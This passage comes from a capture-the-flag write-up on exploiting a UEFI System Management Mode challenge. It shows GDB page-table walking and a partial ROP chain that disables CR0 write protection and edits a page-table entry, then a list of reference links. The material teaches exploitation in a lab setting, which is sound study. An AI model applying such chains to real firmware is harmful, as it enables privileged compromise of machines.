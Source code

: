 ### Writing the real ROP chain

After flipping the stack and starting the real ROP chain, we'll need gadgets
for:

- Setting CR0 in order to be able to disable `CR0.WP` to be able to edit the
  page table.
- Write to memory at an arbitrary address to overwrite the page table entry for
  the flag address.
- Read from memory into a register to be able to get the flag.

All of these can be easily found with a bit of patience, since we have *a lot*
of gadgets on our hands.

Since addresses don't change, we don't really need to worry about walking the
page table: we can just find the address of the page table entry for
`0x44440000` once using GDB and then hardcode it in the exploit:

```
(gdb) set $lvl4_idx = (0x44440000 >> 12 + 9 + 9 + 9) & 0x1ff
(gdb) set $lvl3_idx = (0x44440000 >> 12 + 9 + 9) & 0x1ff
(gdb) set $lvl2_idx = (0x44440000 >> 12 + 9) & 0x1ff
(gdb) set $lvl1_idx = (0x44440000 >> 12) & 0x1ff
(gdb) set $lvl4_entry = *(unsigned long *)($cr3 + 8 * $lvl4_idx)
(gdb) set $lvl3_entry = *(unsigned long *)(($lvl4_entry & 0xffffffff000) + 8 * $lvl3_idx)
(gdb) set $lvl2_entry = *(unsigned long *)(($lvl3_entry & 0xffffffff000) + 8 * $lvl2_idx)

(gdb) set $lvl1_entry_addr = ($lvl2_entry & 0xffffffff000) + 8 * $lvl1_idx
(gdb) set $lvl1_entry      = *(unsigned long *)$lvl1_entry_addr

(gdb) printf "PTE at 0x%lx, value = 0x%016lx\n", $lvl1_entry_addr, $lvl1_entry

PTE at 0x7ed0200, value = 0x8000000044440066
```

Notice how `0x8000000044440066` has bit 63 set (NX) set and bits 0 and 1 unset
(not present, not writeable). We need to set bit 0 in order to mark the page as
present, so the value we want is `0x8000000044440067`.

Checking the value of CR0 from GDB we get `0x80010033`: turning OFF the WP bit
gives us `0x80000033`, so this is what we want to write into CR0 before trying
to edit the page table entry at `0x7ed0200`.

After finding the gadgets we need, this is what the real ROP chain looks like:

```python
ret_0x70 = 0x7F83000 + 0x8a49 # VariableSmm.efi + 0x8a49: ret 0x70
payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x70)

real_chain = [
    # Unset CR0.WP
    0x7f8a184 , # pop rax ; ret
    0x80000033, # -> RAX
    0x7fcf70d , # mov cr0, rax ; wbinvd ; ret

    # Set PTE of flag page as present
    # PTE at 0x7ed0200, original value = 0x8000000044440066
    0x7f8a184         , # pop rax ; ret
    0x7ed0200         , # -> RAX
    0x7fc123d         , # pop rdx ; ret
    0x8000000044440067, # -> RDX
    0x7fc9385         , # mov dword ptr [rax], edx ; xor eax, eax ;
                        # pop rbx ; pop rbp ; pop r12 ; ret
    0x1337, # filler
    0x1337, # filler
    0x1337, # filler

```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31